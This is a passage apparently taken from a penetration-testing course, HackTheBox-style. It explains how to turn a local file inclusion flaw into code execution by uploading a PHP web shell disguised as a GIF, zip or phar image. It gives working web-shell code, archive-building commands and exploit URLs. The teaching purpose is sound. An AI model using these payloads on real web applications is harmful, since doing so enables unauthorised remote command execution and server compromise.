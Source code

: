 ___Note:__ We are using a GIF image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

After uploading our malicious file...
```
http://example.com/index.php?language=./profile_images/shell.gif&cmd=id
```
__Note:__ To include to our uploaded file, we used ./profile_images/ as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to ../ out of that directory and then use our URL path, as we learned in previous sections

### Zip Upload
This technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the zip wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work.

To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named shell.jpg), as follows:
```
MetricCode@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

__Note:__ Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.


After uploading...
```
http://example.com/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:
```
MetricCode@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
Now, we should have a phar file called shell.jpg. Once we upload it to the web application, we can simply call it with phar:// and provide its URL path, and then specify the phar sub-file with /shell.txt (URL encoded) to get the output of the command we specify with (&cmd=id)
